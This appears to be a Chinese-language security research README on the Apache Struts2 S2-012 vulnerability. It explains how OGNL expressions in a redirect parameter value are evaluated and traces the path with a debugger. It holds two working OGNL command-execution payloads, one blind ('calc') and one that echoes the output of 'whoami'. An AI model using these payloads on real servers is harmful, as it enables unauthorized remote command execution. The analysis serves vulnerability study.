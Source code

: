 # S2-012 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts Showcase App 2.0.0` - `Struts Showcase App 2.3.14.2 `

Problem: 在`S2-003`、`S2-005`和`S2-009`中已经解决了`OGNL`表达式解析问题，但是由于它只涉及参数名的防护，没有考虑到参数值注入`OGNL`表达式。因此基于参数名白名单(`acceptableName`)和禁止方法执行(`denyMethodExecution`)的方式只能部分修复漏洞，不能完全解决。

当`action`中配置`result`为`redirect`并且传递了某个参数，在触发`redirect`类型返回时，`Struts2` 获取使用`${name}` 获取其值，在这个过程中会对`name`参数的值执行` OGNL` 表达式解析，从而可以插入任意 `OGNL` 表达式导致命令执行。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`.

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![20200717095816](img/20200717095816.jpg)

## Payload

无回显

```java
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('calc'))}
```

有回显

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

在`ParametersInterceptor`的`doIntercept`方法下断点，提交无回显`payload`触发断点（`calc`方便知道哪行代码执行了`ognl`语句）：

`s2-012/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ParametersInterceptor.class:92`

![setParameters](img/setParameters.jpg)

跟入`setParameters`，可以看到只是检查了参数名是否合法，然后将参数名和参数值放入`newStack`：

```java
		...
		Iterator i$ = params.entrySet().iterator();

        while(i$.hasNext()) { //遍历检查参数名是否合法
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            boolean acceptableName = this.acceptableName(name) && (parameterNameAware == null || parameterNameAware.acceptableParameterName(name)); 
            if (acceptableName) {
                acceptableParameters.put(name, entry.getValue());
            }
        }

        ...

        Iterator i$ = acceptableParameters.entrySet().iterator(); 

        while(i$.hasNext()) {
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            Object value = entry.getValue();

            try {
                newStack.setValue(name, value); //将合法的参数对放入newStack
            } catch (RuntimeException var16) {
                ...
            }
        }
```

跳回`doIntercept`, 执行`invocation.invoke()`，通过`invokeActionOnly()`获取到了`action`的返回值`redirect`：

![image-20200720112707313](img/invokeActionOnly.png)

跟入`executeResult()`，看看是如何处理`redirect`的：

![image-20200720113107400](img/executeResult.png)

继续跟入`result.execute()` -> `super.execute()` -> `conditionalParse()` -> `translateVariables()`：

经过一波字符串操作，将`ognl`表达式（`name`）提取了出来，并在`stack`中查找到的值进行替换：

![image-20200720114721752](img/translateVariables.png)

继续循环，`name`已经被替换为了`payload`，在执行`stack.findValue()`时执行了ognl表达式。

![image-20200720142038521](img/findValue2.png)

回到execute()函数，进入doExecute()，执行请求转发操作：

s2-012/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/StrutsResultSupport.class:60

![image-20200720150512188](img/doExecute.png)

![image-20200720145033650](img/sendRedirect.png)

## Reference

- [S2-0012](https://cwiki.apache.org/confluence/display/WW/S2-012)

- [S2-012 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-012/README.zh-cn.md)